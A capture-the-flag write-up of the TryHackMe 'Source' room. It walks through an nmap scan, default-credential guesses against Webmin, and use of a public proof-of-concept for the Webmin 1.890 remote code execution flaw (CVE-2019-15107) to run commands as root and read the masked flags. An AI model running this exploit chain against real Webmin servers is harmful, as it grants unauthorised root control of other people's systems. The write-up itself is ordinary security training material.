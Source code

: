 ```yaml
---
title: "TryHackMe: Source"
author: cilgin
date: 2025-06-21 19:48:40 +0300
categories: [CyberSecurity]
tags: [CTF, TryHackMe, Easy]
pin: true
math: false
mermaid: false
image:
  path: /assets/img/2025-06-21-TryHackMe-Source/Source.webp
---
```


Howdy, fellow hackers! Welcome to my write-up for the [Source](https://tryhackme.com/room/source) room on TryHackMe. In this post, I'll walk you through the steps I took to pwn this box and grab those sweet, sweet flags. Let's get started!

# Enumeration

## Nmap Scan

First things first, let's make our lives a little easier. I'm exporting the target IP to an environment variable so I don't have to type it a million times.

```bash
export IP=10.10.178.7
```

With our variable set, it's time to unleash `nmap`:

```bash
❯ nmap -T4 -n -sC -sV -Pn -p- $IP
Starting Nmap 7.97 ( https://nmap.org ) at 2025-06-21 19:50 +0300
Nmap scan report for 10.10.178.7
Host is up (0.073s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b7:4c:d0:bd:e2:7b:1b:15:72:27:64:56:29:15:ea:23 (RSA)
|   256 b7:85:23:11:4f:44:fa:22:00:8e:40:77:5e:cf:28:7c (ECDSA)
|_  256 a9:fe:4b:82:bf:89:34:59:36:5b:ec:da:c2:d3:95:ce (ED25519)
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
|_http-server-header: MiniServ/1.890
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 80.66 seconds
```

Our scan reveals an open door on port `10000`, where Webmin is hosting a party. Let's see if we can crash it with a quick `curl`.

```bash
❯ curl http://$IP:10000
<h1>Error - Document follows</h1>
<p>This web server is running in SSL mode. Try the URL <a href='https://ip-10-10-178-7.eu-west-1.compute.internal:10000/'>https://ip-10-10-178-7.eu-west-1.compute.internal:10000/</a> instead.<br></p>
```

Whoops, it seems the server is a bit shy and insists on using HTTPS. Fair enough! Let's try that instead.

```bash
❯ curl https://$IP:10000
curl: (60) SSL certificate problem: self-signed certificate
More details here: https://curl.se/docs/sslcerts.html

curl failed to verify the legitimacy of the server and therefore could not
establish a secure connection to it. To learn more about this situation and
how to fix it, please visit the webpage mentioned above.
```

Ah, the classic self-signed certificate! `curl` is being a stickler for security and refuses to connect. No worries, it's time to fire up the good old web browser, which is a lot more forgiving about these things. I pointed my browser to `https://$IP:10000` and was greeted by the Webmin login page.

![Desktop View](/assets/img/2025-06-21-TryHackMe-Source/photo1.webp){: width="665" height="645" }

## Trying to Log In (or Not)

Time for the 'ole college try' with the most creative credentials known to humankind:

- `admin:admin`
- `admin:password`

Shocker, those didn't work. On to Plan B: asking the all-knowing Google for the default password for `webmin`.

Someone on the forums said this:

```text
The default user name and password is that of your root user.
```

Interesting! But before trying to brute-force the root password, let's check the version we're dealing with. Our Nmap scan already gave us a huge clue:

```text
|_http-server-header: MiniServ/1.890
```

A quick Google search for `Webmin 1.890 exploit` hits the jackpot! Not only is there a nasty remote code execution vulnerability (CVE-2019-15107), but some kind soul has already written a proof-of-concept script. You love to see it! Here's the [GitHub repo for the exploit](https://github.com/n0obit4/Webmin_1.890-POC/blob/master/Webmin_exploit.py).

Let's run the script with the `id` command to check our privileges.

```bash
❯ python script.py -host $IP -port 10000 -cmd id

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
uid=0(root) gid=0(root) groups=0(root)
```

And just like that... `uid=0(root)`. We're in! We have achieved total control without even needing a password. The power!

## Gaining Flags

Now for the fun part: collecting our trophies!

### User Flag

Let's start by listing the contents of the `/home` directory to find our user.

```bash
❯ python script.py -host $IP -port 10000 -cmd "ls /home"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
dark
```

Okay, the user is `dark`. Let's see what's in their home directory.

```bash
❯ python script.py -host $IP -port 10000 -cmd "ls /home/dark"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
user.txt
webmin_1.890_all.deb
```

There it is, `user.txt`. Let's read it!

```bash
❯ python script.py -host $IP -port 10000 -cmd "cat /home/dark/user.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

### Root Flag

This one should be even easier since we're already root.

```bash
❯ python script.py -host $IP -port 10000 -cmd "cat /root/root.txt"

╦ ╦┌─┐┌┐ ┌┬┐┬┌┐┌
║║║├┤ ├┴┐│││││││
╚╩╝└─┘└─┘┴ ┴┴┘└┘ 1.890 expired Remote Root

			By: n0obit4
			Github: https://github.com/n0obit4
Your password has expired, and a new one must be chosen.
THM{*******************}
```

And that's a wrap! Two flags, one simple exploit. Thank you for reading my write-up, and happy hacking
